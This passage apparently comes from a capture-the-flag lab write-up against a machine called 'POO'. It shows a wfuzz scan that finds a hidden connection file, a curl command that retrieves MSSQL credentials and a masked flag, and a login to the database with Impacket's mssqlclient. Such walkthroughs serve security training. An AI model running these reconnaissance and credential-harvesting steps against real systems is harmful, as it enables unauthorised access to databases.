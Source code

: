 
Now I can `wfuzz`:

    
    
    root@kali# wfuzz -c -w co_fuzz.txt -u http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt --hc 404
    
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt
    Total requests: 2351
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000097:   200        6 L      7 W      142 Ch      "connection"
    
    Total time: 26.60058
    Processed Requests: 2351
    Filtered Requests: 2350
    Requests/sec.: 88.38152
    

### File and Flag

Grabbing this file (from either `dev` directory) provides connection details
for MSSQL and the first flag, `Recon`:

    
    
    root@kali# curl -s http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_connection.txt
    SERVER=10.13.38.11
    USERID=external_user
    DBNAME=POO_PUBLIC
    USERPWD=#p00Public3xt3rnalUs3r#
    
    Flag : POO{fcfb0767************************}
    

## Huh?!

### Basic MSSQL Enumeration

With the creds from the previous step, I can now connect to the MSSQL instance
on TCP 1433:

    
    
    root@kali# mssqlclient.py external_user:#p00Public3xt3rnalUs3r#@10.13.38.11
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation
    
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed database context to 'master'.
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (140 7235) 
    [!] Press help for extra shell commands
    SQL>
    
